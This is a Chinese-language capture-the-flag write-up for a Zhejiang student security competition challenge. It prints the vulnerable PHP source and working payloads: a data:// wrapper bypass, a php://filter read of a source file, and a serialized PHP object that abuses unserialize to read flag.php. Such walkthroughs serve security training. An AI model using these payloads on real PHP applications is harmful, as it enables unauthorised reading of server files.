




浙江省大学生网络安全竞赛：逆转思路
这题当初没做出来，可惜了就拿个二等奖。
主要是php序列化，以及data协议。
1 | <?php |
2 | $text = $_GET["text"]; |
3 | $file = $_GET["file"]; |
4 | $password = $_GET["password"]; |
5 | if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){ |
6 | echo "<br><h1>".file_get_contents($text,'r')."</h1></br>"; |
7 | if(preg_match("/flag/",$file)){ |
8 | echo "Not now!"; |
9 | exit(); |
10 | }else{ |
11 | include($file); //useless.php |
12 | $password = unserialize($password); |
13 | echo $password; |
14 | } |
15 | } |
16 | else{ |
17 | highlight_file(__FILE__); |
18 | } |
19 | ?> |
第一关
file_get_contents() 函数把整个文件读入一个字符串中。
思路：
利用data协议绕过,将welcome to the zjctf字符读入
data://协议允许读入
第一关payload：
1 | text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY= |

第二关
正则判断里面是否有flag字符，如果没有的话，并运行指定文件。
思路：
利用filter来进行读取指定文件，因为提示有说useless.php
payload:
1 | file=php://filter/read=convert.base64-encode/resource=useless.php |
读取后进行base64解码


1 | <?php |
2 | |
3 | class Flag{ //flag.php |
4 | public $file; |
5 | public function __tostring(){ |
6 | if(isset($this->file)){ |
7 | echo file_get_contents($this->file); |
8 | echo "<br>"; |
9 | return ("U R SO CLOSE !///COME ON PLZ"); |
10 | } |
11 | } |
12 | } |
13 | ?> |
第三关
思路：
将flag调用，然后给里面file值为flag.php。
序列化后传入password，应该就会出flag。
以下是我自己写的php序列化
1 | <?php |
2 | class Flag{ //flag.php |
3 | public $file="flag.php"; |
4 | public function __tostring(){ |
5 | if(isset($this->file)){ |
6 | echo file_get_contents($this->file); |
7 | echo "<br>"; |
8 | return ("U R SO CLOSE !///COME ON PLZ"); |
9 | } |
10 | } |
11 | } |
12 | $file = new Flag(); |
13 | echo serialize($file); |
payload：
1 | O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} |
将三关payload综合起来：
1 | ?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} |
F12找到flag
